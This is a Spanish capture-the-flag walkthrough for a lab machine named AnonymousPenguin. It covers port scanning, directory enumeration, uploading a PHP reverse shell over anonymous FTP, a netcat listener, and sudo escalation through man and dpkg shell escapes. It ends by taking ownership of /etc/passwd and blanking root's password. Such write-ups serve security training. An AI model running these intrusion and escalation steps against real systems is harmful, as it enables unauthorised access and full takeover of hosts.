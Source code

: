 Maquina: AnonymousPenguin

Autor: El Pinguino de Mario

Dificultad: Facil

ping 172.17.0.2 -c 1

nmap -p- --open -sS -sC -sV --min-rate=5000 -vvv -n -Pn -oN escaneo 172.17.0.2

Vemos que esta abierto el puerto 21 FTP y el puerto 80 HTTP

Si accedemos a la pagina web vemos esto

Usamos Gobuster para hacer un reconocimiento web y ver que directorios podemos encontrar

gobuster dir -u http://172.17.0.2/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php

Vemos que hay un directorio upload pero no hay nada dentro vamos a intentar subir desde el ftp una reverse shell a la carpeta upload y asi conseguir acceso

Hemos podido subir el archivo de la reverse shell php

ftp 172.17.0.2

Accedemos como anonymous

En el directorio web también aparace upload

En este directorio vamos a subir un php reverse shell

Nos ponemos en escucha con Netcat

nc -lvnp 443

sudo -l 

vemos que podemos ejecutar man como Pingu

sudo -u pingu /usr/bin/man man

!/bin/sh
whoami

sudo -l 

vemos que podemos ejecutar nmap y dpkg como el usuario gladys

sudo -u gladys /usr/bin/dpkg -l

!/bin/sh
whoami

sudo -l 
vemos que podemos ejecutar chown como root

cambiamos el propietario de /etc/passwd

sudo /usr/bin/chown $(id -un):$(id -gn) /etc/passwd

Con sed hacemos que elimine la X que tiene root para que la contraseña desaparezca y creamos un archivo temporal en tmp

sed 's/^root:[^:]*:/root::/' /etc/passwd > /tmp/passwd.tmp

copiamos el tmp donde esta el original para que lo sobreescriba

cp /tmp/passwd.tmp /etc/passwd

su root

whoami



